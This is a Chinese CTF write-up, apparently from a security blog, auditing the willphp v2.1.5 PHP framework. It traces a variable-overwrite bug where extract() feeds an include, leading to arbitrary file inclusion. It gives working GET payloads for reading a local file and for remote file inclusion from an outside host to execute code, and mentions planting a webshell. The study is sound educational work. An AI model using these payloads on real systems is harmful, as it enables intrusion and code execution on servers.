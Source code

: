 ```yaml
---
author: Noel
pubDatetime: 2021-11-17T23:34:08.000+08:00
modDatetime: 2022-08-18T23:34:08.000+08:00
title: willphp代码审计
featured: false
draft: false
tags:
  - 代码审计
  - 网络安全
  - Willphp
description: 
  这是湖湘杯的一道web题目，当时没有分析出来，赛后再复盘一下.
---
```


> ***web安全的本质最终还得回归到代码层面.***
> 本专栏博客主要通过复现历史cms的漏洞,来学习,了解以及总结cms中最容易出问题的功能代码.


# 前言

这是湖湘杯的一道web题目，当时没有分析出来，赛后再复盘一下.
<!-- more -->

相关工具

```
willphp 源码版本 v2.1.5
phpstudypro
php7.3.4
wind10
vscode
xdebug
```

这道题目对willphp中的`app/controller/IndexController.php`中的`index()`方法进行了部分添加，师傅们再下载完`willphp`后记得在`app/controller/IndexController.php`中修改部分代码：

```php
class IndexController{
	public function index(){
		highlight_file(__FILE__);
        assign($_GET['name'],$_GET['value']);
		return view();
	}
}
```



# 0x01 变量覆盖

## 代码分析

访问www主页面，随便传入get参数name以及value，进行代码跟踪

![image-20211117125350051](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117125350051.png)

![image-20211117125515085](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117125515085.png)

进入`assign()`方法,跳转到`willphp/helper.php的第205行`,

![image-20211117125808230](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117125808230.png)

配合注释,大概能了解到这个函数的作用是将刚才通过get接收到的值传入的到模板中,继续跟进`\wiphp\View::assign()`

![image-20211117130316799](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117130316799.png)

这里直接跳转到一个加载框架的函数,.这里可以先不用管,继续跟踪找`assign()`.

在`willphp/wiphp/View.php的第13行`找到函数定义

![image-20211117130801602](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117130801602.png)

这个函数的逻辑很简单,就是将get接收到的`$_GET['name']`和`$_GET['value']`分别以键和值的方式储存在`$_vars`数组中.

到此为止,`assgin()`函数就跟踪完成,接下来是`view()`,继续跟进.

![image-20211117131356434](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117131356434.png)

跳转到`willphp/helper.php的第215行`,同第一次跟进到`assign()`函数类似,这里也给出了`view()`函数的作用以及相关参数说明.

![image-20211117131738557](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117131738557.png)

可以看到这里`view()`中调用了`\wiphp\View::fetch()`方法,跟进,跳转到`willphp/wiphp/View.php的第16行`

![image-20211117132158642](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117132158642.png)

同时还看到了上一步`assign()`函数的执行的结果.

继续一步步调试.

在38行之前,都没有我们可控的参数,这里就快速过一遍逻辑:主要是定义所需模板的路径以及文件.

到38行执行了`array_work_recursive()`函数,通过`selg::_parse_vars()`来处理`self::$_vars`,也就是删除`self::$_vars`中值的反斜杠.

![image-20211117132820269](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117132820269.png)

到目前位置,还没遇到危险函数.**不过别放弃,快要到了.**

继续调试发现在`39行`执行了`\Tple::render()`函数,跟进,跳转到`willphp/wiphp/Tple.php的第13行`

![image-20211117133404991](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117133404991.png)

由于传入的`$_vars`变量是可控的,所以我们需要时刻注意在哪些地方用到了这个变量.

继续调试,发现在15行时进入了if判断,执行`self::renderTo()`函数,

![image-20211117171329979](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117171329979.png)

由于这个函数涉及到可控变量`$_vars`,跟进,跳转到这个文件的第33行,

![image-20211117171530827](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117171530827.png)

继续走,发现在41行使用了变量`$_vars`,且涉及到危险函数`file_get_contents`,跟进`self::comp()`,发现这个函数内部没有使用到`$_vars`,那就不管,继续调试,

接着就回到了`renderTo()`的第44行.问题就出在两行.我们再回过来看看变量`$_vars`的内容:

![image-20211117172308070](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117172308070.png)

![image-20211117172421908](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117172421908.png)

由于这里使用了`extrac()`函数后又执行了在一个`include`文件包含`$_cfile`的操作,且`extract()`传入的内容完全可控.那此时就很容易想到构造`$_cfile`实现任意文件包含.



## 漏洞利用

在本地的d盘下创建一个文件`1.txt`

![image-20211117173416733](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117173416733.png)

构造get传参`/?name=cfile&value=d:\1.txt`

![image-20211117173656533](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117173656533.png)

可以看到这里我们已经拿到了`1.txt`中的内容.如果服务端的`php.ini`中设置了`allow_url_include=On`,那么漏洞还能进一步利用.在服务器上放置一个文件,其内容为:

![image-20211117174218061](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117174218061.png)

再次构造get传参包含远程文件`/?name=cfile&value=http://192.168.3.102/index1.txt`

![](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211117174359377.png)

可以看到此处已经成功代码执行,后续还可以直接写个码在漏洞服务器上,然后用蚁剑直接去连等等,这里就不在演示了,师傅们肯定都比我会.



# 0x02 总结

赛后复盘的时候还是很容易就能审计到漏洞点,但是为什么当时做题的时候没有审计出来呢?还是做题的时候没有静下心来,太浮躁了.我真是sb.

其次,本次审计的办法是采用跟踪函数的方法.通过文章,应该能感觉到通篇都在强调**用户可控**这个词.这也是代码审计中最重要的部分.通过观察用户可控的变量进行了哪些操作,是否存在危险函数,从而判断是否存在漏洞.希望对师傅们有所帮助.
